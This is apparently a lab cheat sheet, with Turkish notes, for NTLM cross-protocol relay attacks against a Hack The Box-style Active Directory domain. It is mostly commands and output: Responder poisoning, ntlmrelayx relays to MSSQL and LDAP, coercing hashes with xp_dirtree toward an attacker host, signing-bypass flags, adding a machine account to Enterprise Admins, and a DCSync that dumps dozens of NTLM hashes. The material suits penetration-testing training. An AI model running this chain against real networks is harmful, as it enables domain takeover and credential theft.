

# Cross-Protocol Attacks

## Reference Table

| RELAY FROM | RELAY OVER | CROSS-PROTOCOL |
|---|---|---|
| HTTP HTTPS | HTTP HTTPS ||
| HTTP HTTPS | IMAP LDAP LDAPS MSSQL RPC SMB SMTP | + |
| SMB | SMB ||
| SMB | HTTP HTTPS IMAP LDAP LDAPS MSSQL RPC SMTP | + |
| WCF | HTTP HTTPS IMAP LDAP LDAPS MSSQL RPC SMB SMTP | + |

## Example AiTM



1. Kullanıcı saldırgana HTTP NEGOTIATE_MESSAGE gönderir. Saldırgan bu mesajı sunucuya LDAP NEGOTIATE_MESSAGE olarak iletir.
2. Sunucu saldırgana LDAP CHALLENGE_MESSAGE gönderir. Saldırgan bu mesajı kullanıcıya HTTP CHALLENGE_MESSAGE olarak iletir.
3. Kullanıcı saldırgana HTTP AUTHENTICATE_MESSAGE gönderir. Saldırgan bu mesajı sunucuya LDAP AUTHENTICATE_MESSAGE olarak iletir.
4. Sunucu saldırgana geçerli bir LDAP oturum bilgisi sağlar.
5. Geçerli oturumu elde eden saldırgan, kullanıcı ile arasındaki bağlantıyı sonlandırır.

## NTLM Relay over MSSQL

### Disabling Responder SMB

```ini title="Responder.conf" linenums="10"
SMB      = Off
```

### Responder

```sh
htb-student@ubuntu:~$ sudo Responder.py -I ens192
```

### Launching SOCKS Proxy

!!! failure

    Relay adresinden bağlantı başlatan bir hesap saldırının başarısız olmasına sebep olabilir.

    Bu durumda multi-relay özelliği denenebilir:

    ```sh
    htb-student@ubuntu:~$ echo "mssql://172.16.117.60" | sudo tee relays.txt
    htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf relays.txt -smb2support -socks
    ```

    Responder dosyasını güncellemek de işe yarayabilir:

    ```ini title="Responder.conf" linenums="58"
    DontRespondTo = 172.16.117.60
    ```

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks
```

```output title="Output" hl_lines="3"
[*] SMBD-Thread-15: Connection from INLANEFREIGHT/NPORTS@172.16.117.3 controlled, attacking target mssql://172.16.117.60
[*] Authenticating against mssql://172.16.117.60 as INLANEFREIGHT/NPORTS SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/NPORTS@172.16.117.60(1433) to active SOCKS connection. Enjoy
```

### Connecting the Database

```sh
htb-student@ubuntu:~$ proxychains -q mssqlclient.py INLANEFREIGHT/NPORTS@172.16.117.60 -no-pass -windows-auth
```

### Hash Stealing

!!! warning

    Responder SMB ayarı etkin durumda olmalıdır.

    Ya da:

    * [smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py)
    * [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)

```sql
SQL (INLANEFREIGHT\nports  guest@master)> EXEC master..xp_dirtree '\\172.16.117.30\test'
```

```sql
SQL (INLANEFREIGHT\nports  guest@master)> EXEC master..xp_subdirs '\\172.16.117.30\test'
```

### SQL Query

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t mssql://INLANEFREIGHT\\'NPORTS'@172.16.117.60 -smb2support --query "SELECT name FROM master.sys.sysdatabases"
```

```output title="Output"
name

--------------------------------------------------------------------------------------------------------------------------------

master

tempdb

model

msdb

development01
```

### Encryption Required Problem

Saldırı sırasında aşağıdaki sorun ile karşılaşılabilir:

```output title="Output"
[-] Connection against target mssql://172.16.117.60 FAILED: [('SSL routines', '', 'no protocols available')]
```

Sorunu daha iyi anlamak için aynı komutu -debug seçeneği ile çalıştıralım:

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks -debug
```

```output title="Output"
[+] Encryption required, switching to TLS
[-] Connection against target mssql://172.16.117.60 FAILED: [('SSL routines', '', 'no protocols available')]
```

Bu sorunu çözmek için Impacket [dosyasında](https://github.com/fortra/impacket/blob/ea242af1c79cc6d8e29fb7c3fca450528b73f379/impacket/tds.py#L522-L523) aşağıda verilen değişikliği gerçekleştir:

```python title="tds.py" linenums="522"
prelogin['Encryption'] = TDS_ENCRYPT_NOT_SUP
#prelogin['Encryption'] = TDS_ENCRYPT_OFF
```

## NTLM Relay over LDAP

### Disabling Responder SMB and HTTP

```ini title="Responder.conf" linenums="10"
SMB      = Off
RDP      = On
Kerberos = On
FTP      = On
POP      = On
SMTP     = On
IMAP     = On
HTTP     = Off
```

### Starting Responder

```sh
htb-student@ubuntu:~$ sudo Responder.py -I ens192
```

### Dumping Domain Information

!!! failure

    DC üzerinde SMB signing zorunlu olduğu için aşağıdaki hata alınabilir:

    ```output title="Output"
    [!] The client requested signing. Relaying to LDAP will not work! (This usually happens when relaying from SMB to LDAP)
    ```

    HTTP mevcut ise SMB yerine kullanılabilir. HTTP protokolü signing desteklemediği için saldırı başarılı olabilir.

    Ya da hedef savunmasız ise aşağıda verilen seçenekler kullanılabilir:

    | Signing Bypass | Vulnerability |
    |---|---|
    | -remove-targets | [CVE-2019-1019](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1019) |
    | --remove-mic | [CVE-2019-1040](https://nvd.nist.gov/vuln/detail/CVE-2019-1040) |

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir domain_dump
```

```output title="Output" hl_lines="2 4 8"
[*] SMBD-Thread-5: Received connection from 172.16.117.3, attacking target ldap://172.16.117.3
[!] The client requested signing. Relaying to LDAP will not work! (This usually happens when relaying from SMB to LDAP)
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(80): Authenticating against ldap://172.16.117.3 as INLANEFREIGHT/NPORTS SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] Domain info dumped into lootdir!
```

### Computer Account Creation

!!! warning

    Saldırı sırasında aşağıdaki uyarı alınabilir:

    ```output title="Output"
    [*] Adding a machine account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS
    ```

    Uyarıyı gidermek için LDAP yerine LDAPS kullanılabilir:

    ```sh
    htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldaps://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$' 'Password123!'
    ```

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$' 'Password123!'
```

```output title="Output" hl_lines="5 7"
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(80): Authenticating against ldap://172.16.117.3 as INLANEFREIGHT/NPORTS SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] Adding a machine account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS
[*] Attempting to create computer in: CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] Adding new computer with username: plaintext$ and password: Password123! result: OK
```

### ACL Privilege Escalation

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-dump --escalate-user 'plaintext$'
```

```output title="Output" hl_lines="5-6"
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(80): Authenticating against ldap://172.16.117.3 as INLANEFREIGHT/NPORTS SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] Adding user: attack to group Enterprise Admins result: OK
[*] Privilege escalation succesful, shutting down...
```

### DCSync

```sh
htb-student@ubuntu:~$ secretsdump.py 'INLANEFREIGHT'/'plaintext$':'Password123!'@172.16.117.3 -just-dc-ntlm
```

```output title="Output" hl_lines="3"
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1e532fdcdea711011a6b13bcf390401:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:40e55342ae86d4dcaac980c945ce147c:::
inlanefreight.local\avazquez:1127:aad3b435b51404eeaad3b435b51404ee:762cbc5ea2edfca03767427b2f2a909f:::
inlanefreight.local\pfalcon:1128:aad3b435b51404eeaad3b435b51404ee:f8e656de86b8b13244e7c879d8177539:::
inlanefreight.local\fanthony:1129:aad3b435b51404eeaad3b435b51404ee:9827f62cf27fe221b4e89f7519a2092a:::
inlanefreight.local\wdillard:1130:aad3b435b51404eeaad3b435b51404ee:69ada25bbb693f9a85cd5f176948b0d5:::
inlanefreight.local\lbradford:1131:aad3b435b51404eeaad3b435b51404ee:0717dbc7b0e91125777d3ff4f3c00533:::
inlanefreight.local\sgage:1132:aad3b435b51404eeaad3b435b51404ee:31501a94e6027b74a5710c90d1c7f3b9:::
inlanefreight.local\asanchez:1133:aad3b435b51404eeaad3b435b51404ee:c6885c0fa57ec94542d362cf7dc2d541:::
inlanefreight.local\dbranch:1134:aad3b435b51404eeaad3b435b51404ee:a87c92932b0ef15f6c9c39d6406c3a75:::
inlanefreight.local\ccruz:1135:aad3b435b51404eeaad3b435b51404ee:a9be3a88067ed776d0e2cf4ccde8ec8f:::
inlanefreight.local\njohnson:1136:aad3b435b51404eeaad3b435b51404ee:1b2a9f3b6d785e695aadfe3485a2601f:::
inlanefreight.local\mholliday:1137:aad3b435b51404eeaad3b435b51404ee:a87c92932b0ef15f6c9c39d6406c3a75:::
inlanefreight.local\mshoemaker:1138:aad3b435b51404eeaad3b435b51404ee:c15d04d9a989b3c9f1d2db979ffa325f:::
inlanefreight.local\aslater:1139:aad3b435b51404eeaad3b435b51404ee:e7d0a88542cb44ab48e5a89d864f8146:::
inlanefreight.local\kprentiss:1140:aad3b435b51404eeaad3b435b51404ee:9b12a0a33aabdbd845cd3ed5070820b9:::
inlanefreight.local\gdavis:1141:aad3b435b51404eeaad3b435b51404ee:1ab3ee9bd2e35ad25670481d9d1b4e0f:::
inlanefreight.local\jmcdaniel:1142:aad3b435b51404eeaad3b435b51404ee:1e22653293daff337f58d32695c999d0:::
inlanefreight.local\jjones:1143:aad3b435b51404eeaad3b435b51404ee:a90431144f59bc8aeecc28038d6bda40:::
inlanefreight.local\tgarcia:1144:aad3b435b51404eeaad3b435b51404ee:8a4c52fc75514ddb740971e26b9311d9:::
inlanefreight.local\mharrison:1145:aad3b435b51404eeaad3b435b51404ee:4befb46af523d5899f605eb13fa91788:::
sql_svc:1146:aad3b435b51404eeaad3b435b51404ee:e6ae8c651f3d3b60401da389d75021e0:::
peter:1147:aad3b435b51404eeaad3b435b51404ee:96c341321af859b4e1a7cbeb093bfaf1:::
INLANEFREIGHT.LOCAL\rmonty:1149:aad3b435b51404eeaad3b435b51404ee:e911db84e2c990478244ebb5e2e3e3df:::
INLANEFREIGHT.LOCAL\jperez:1150:aad3b435b51404eeaad3b435b51404ee:c9d393c8a0b2dfcf72eba102df5ceee6:::
INLANEFREIGHT.LOCAL\nports:1151:aad3b435b51404eeaad3b435b51404ee:ac49e22c2d9bf1e154aef4081300273b:::
INLANEFREIGHT.LOCAL\mkarks:1152:aad3b435b51404eeaad3b435b51404ee:a33ff3dd834475888b3cdf7b1371c366:::
INLANEFREIGHT.LOCAL\mkam:1154:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
INLANEFREIGHT.LOCAL\cjaq:1157:aad3b435b51404eeaad3b435b51404ee:36f7860a10004fee2a5c243ed8c43a8b:::
INLANEFREIGHT.LOCAL\dperez:1158:aad3b435b51404eeaad3b435b51404ee:a809f0211d6b4b59deca631815c1fa06:::
INLANEFREIGHT.LOCAL\cmatos:1159:aad3b435b51404eeaad3b435b51404ee:75182fa3d40f412432c685bf39a3e644:::
INLANEFREIGHT.LOCAL\prototypeproject:1160:aad3b435b51404eeaad3b435b51404ee:ec8f51267655d71e3dbdbc0974996b36:::
INLANEFREIGHT.LOCAL\rons:1161:aad3b435b51404eeaad3b435b51404ee:914b011029e6b43cf188d435951831bd:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:821ddf6aa7b819e39589e633b11e1eb3:::
SQL01$:1105:aad3b435b51404eeaad3b435b51404ee:fe865206b7efa618169e293e91aa980d:::
ILF-XRG$:1106:aad3b435b51404eeaad3b435b51404ee:b3d4b14204272cb1d9ce847e746d1b67:::
MAINLON$:1107:aad3b435b51404eeaad3b435b51404ee:7142fa901fb20d267e33c3f202fe6b72:::
CISERVER$:1108:aad3b435b51404eeaad3b435b51404ee:e90216fcf6f41ab82017c387f0a17446:::
INDEX-DEV-LON$:1109:aad3b435b51404eeaad3b435b51404ee:e7f7c48d31fc88e3db780a58dab32f71:::
SQL-0253$:1110:aad3b435b51404eeaad3b435b51404ee:57775c329d214b2e3077d50add106bed:::
NYC-0615$:1111:aad3b435b51404eeaad3b435b51404ee:75681f33ecdd26ba3d31b7ee23db2e8d:::
NYC-0616$:1112:aad3b435b51404eeaad3b435b51404ee:7d7fc57a6c6ebe6e4d134cb8be27ec8f:::
NYC-0617$:1113:aad3b435b51404eeaad3b435b51404ee:1ad8f8722f30f5878fda38295ec45423:::
WS01$:1148:aad3b435b51404eeaad3b435b51404ee:d172f136edc2366d2aa411e92ab6ca01:::
plaintext$:4103:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```

## NTLM Relay over All Protocols

### Disabling Responder Servers

```sh
htb-student@ubuntu:~$ sed -e '9,24s/= On/= Off/g' -i Responder.conf
htb-student@ubuntu:~$ head Responder.conf -n 24
```

```ini title="Output"
[Responder Core]

; Poisoners to start
MDNS  = On
LLMNR = On
NBTNS = On

; Servers to start
SQL      = Off
SMB      = Off
RDP      = Off
Kerberos = Off
FTP      = Off
POP      = Off
SMTP     = Off
IMAP     = Off
HTTP     = Off
HTTPS    = Off
DNS      = Off
LDAP     = Off
DCERPC   = Off
WINRM    = Off
SNMP     = Off
MQTT     = Off
```

### Responder (Serverless)

```sh
htb-student@ubuntu:~$ sudo Responder.py -I ens192
```

### Attacking Protocols

```sh
htb-student@ubuntu:~$ sudo rm -f relays.txt
htb-student@ubuntu:~$ echo "all://172.16.117.50" | sudo tee -a relays.txt
htb-student@ubuntu:~$ echo "all://172.16.117.60" | sudo tee -a relays.txt
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf relays.txt -smb2support -socks
```
